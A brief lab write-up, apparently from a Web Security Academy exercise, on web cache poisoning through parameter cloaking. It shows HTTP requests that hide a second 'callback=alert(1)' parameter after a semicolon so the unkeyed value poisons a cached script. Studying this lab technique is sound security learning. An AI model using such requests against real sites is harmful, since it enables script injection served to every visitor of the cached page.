 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1) HTTP/2
...
Pragma: x-get-cache-key
Origin: https://cachebuster.0afc006103e7279e80ff71c000b0005c.web-security-academy.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/0d6d21a8c4bc412c788a7adc49dd5469.png)

The keyed part was “/js/geolocate.js?callback=setCountryCookie” but the last
value for “callback” was “alert(1)” so it got poisoned:
